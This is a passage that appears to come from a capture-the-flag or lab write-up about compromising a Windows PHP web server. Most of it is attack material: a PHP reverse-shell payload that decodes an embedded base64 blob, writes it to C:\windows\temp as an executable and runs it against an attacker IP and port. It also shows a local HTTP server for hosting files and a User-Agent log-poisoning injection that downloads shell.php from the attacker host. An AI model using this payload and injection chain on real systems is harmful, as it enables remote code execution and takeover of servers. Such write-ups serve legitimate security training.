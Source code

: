 2. We are going to prepare our payload, so I found a PHP payload suitable for the Windows environment: 

[https://github.com/Dhayalanb/windows-php-reverse-shell](https://github.com/Dhayalanb/windows-php-reverse-shell)

```php
?php

header('Content-type: text/plain');
$ip   = "10.8.6.184"; //change this 
$port = "4444"; //change this
$payload = "7Vh5VFPntj9JDklIQgaZogY5aBSsiExVRNCEWQlCGQQVSQIJGMmAyQlDtRIaQGKMjXUoxZGWentbq1gpCChGgggVFWcoIFhpL7wwVb2ABT33oN6uDm+tt9b966233l7Z39779/32zvedZJ3z7RO1yQjgAAAAUUUQALgAvBEO8D+LBlWq>
$evalCode = gzinflate(base64_decode($payload));
$evalArguments = " ".$port." ".$ip;
$tmpdir ="C:\\windows\\temp";
chdir($tmpdir);
$res .= "Using dir : ".$tmpdir;
$filename = "D3fa1t_shell.exe";
$file = fopen($filename, 'wb');
fwrite($file, $evalCode);
fclose($file);
$path = $filename;
$cmd = $path.$evalArguments;
$res .= "\n\nExecuting : ".$cmd."\n";
echo $res;
$output = system($cmd);
                                    
?>
```

1. Open the web server on the local computer

```bash
└─# python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:9001/) ...
```

1.  Inject a PHP payload into the user agent (with Burp Suite)

```bash
GET / HTTP/1.1
...
User-Agent: <?php file_put_contents('shell.php', file_get_contents('http://10.8.6.184/shell.php')); ?>

```

![Desktop View](/assets/img/sample/Trusteds/image3.png){: .normal }
